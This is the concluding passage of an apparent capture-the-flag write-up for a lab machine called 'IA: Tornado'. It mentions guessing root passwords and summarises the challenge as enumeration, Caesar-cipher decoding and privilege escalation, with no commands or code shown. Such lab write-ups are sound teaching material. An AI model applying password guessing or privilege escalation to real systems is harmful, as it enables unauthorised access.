

That's what we're looking for. However, you have another challenge. The passwords aren't 100% the same; you'll need to guess a few times. But those are the root passwords and the flag at the top.

## Conclusion :
IA: Tornado is an intermediate Capture the Flag (CTF) challenge that offers a diverse experience, ranging from enumeration and manual analysis of encrypted files to privilege escalation, which requires intuition and a bit of guesswork.
While not particularly complex in terms of technical exploitation, this CTF successfully hones precision and a basic understanding of post-exploitation processes and simple decoding (Caesar Cipher).


